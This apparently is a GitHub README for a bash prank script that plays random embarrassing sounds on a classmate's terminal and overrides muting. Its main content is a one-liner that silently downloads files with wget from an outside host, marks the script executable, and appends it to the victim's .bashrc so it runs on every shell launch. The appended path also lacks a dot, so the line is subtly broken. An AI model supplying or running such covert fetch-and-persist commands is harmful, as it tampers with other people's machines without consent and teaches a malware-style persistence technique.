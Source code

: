 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.




Run via
```bash
    ./al.sh & disown $!
```
Hide in their bashrc
```bash
    ./{PATH_TO_FILE}/al.sh & disown $!
```

Do everything via: mkdir
```bash
    ~/.config/al >/dev/null 2>&1; cd ~/.config/al; \
    wget -r -nc -nd http://prank.hostei.com/ >/dev/null 2>&1 && chmod +x al.sh \
    && echo ". ~/config/al/al.sh & disown $!" >> ~/.bashrc
```
